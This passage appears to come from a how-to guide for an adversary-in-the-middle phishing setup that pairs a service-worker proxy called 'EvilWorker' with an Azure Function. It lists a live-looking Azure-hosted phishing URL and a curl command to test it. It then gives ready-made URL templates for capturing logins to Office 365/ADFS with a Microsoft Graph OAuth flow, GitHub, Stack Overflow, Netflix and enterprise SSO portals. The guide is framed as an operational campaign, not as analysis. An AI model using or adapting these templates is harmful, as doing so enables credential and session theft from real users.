 ### **4.2 Create Unified Phishing URL**
```bash
# EvilWorker + Azure Function integration URL
https://azureaitm-phishing-demo-1755253259.azurewebsites.net/login?method=signin&mode=secure&client_id=3ce82761-cb43-493f-94bb-fe444b7a0cc4&privacy=on&sso_reload=true&redirect_urI=https%3A%2F%2Flogin.microsoftonline.com%2F
```

### **4.3 Test Integration**
```bash
# Test the integrated endpoint
curl -X GET "https://azureaitm-phishing-demo-1755253259.azurewebsites.net/login?method=signin&mode=secure&client_id=3ce82761-cb43-493f-94bb-fe444b7a0cc4&privacy=on&sso_reload=true&redirect_urI=https%3A%2F%2Flogin.microsoftonline.com%2F"

# Expected response: HTML page with service worker registration
```

---

## 🎯 STEP 5: ADVANCED ATTACK SCENARIOS

### **5.1 Microsoft Office 365 + ADFS Bypass**
```bash
# Target Office 365 with ADFS
https://your-domain.com/login?method=signin&mode=secure&client_id=3ce82761-cb43-493f-94bb-fe444b7a0cc4&privacy=on&sso_reload=true&redirect_urI=https%3A%2F%2Flogin.microsoftonline.com%2Fcommon%2Foauth2%2Fauthorize%3Fresponse_type%3Dcode%26client_id%3D1fec8e78-bce4-4aaf-ab1b-5451cc387264%26resource%3Dhttps%3A%2F%2Fgraph.microsoft.com%2F%26redirect_uri%3Dhttps%3A%2F%2Flogin.microsoftonline.com%2Fcommon%2Foauth2%2Fnativeclient
```

### **5.2 Multi-Service Campaign**
```bash
# GitHub
https://your-domain.com/login?method=signin&mode=secure&client_id=3ce82761-cb43-493f-94bb-fe444b7a0cc4&privacy=on&sso_reload=true&redirect_urI=https%3A%2F%2Fgithub.com%2Flogin

# Stack Overflow
https://your-domain.com/login?method=signin&mode=secure&client_id=3ce82761-cb43-493f-94bb-fe444b7a0cc4&privacy=on&sso_reload=true&redirect_urI=https%3A%2F%2Fstackoverflow.com%2Fusers%2Flogin

# Netflix
https://your-domain.com/login?method=signin&mode=secure&client_id=3ce82761-cb43-493f-94bb-fe444b7a0cc4&privacy=on&sso_reload=true&redirect_urI=https%3A%2F%2Fwww.netflix.com%2Flogin
```

### **5.3 Enterprise SSO Targeting**
```bash
# Custom enterprise SSO portal
https://your-domain.com/login?method=signin&mode=secure&client_id=3ce82761-cb43-493f-94bb-fe444b7a0cc4&privacy=on&sso_reload=true&redirect_urI=https%3A%2F%2Fyour-company.com%2Flogin
```

---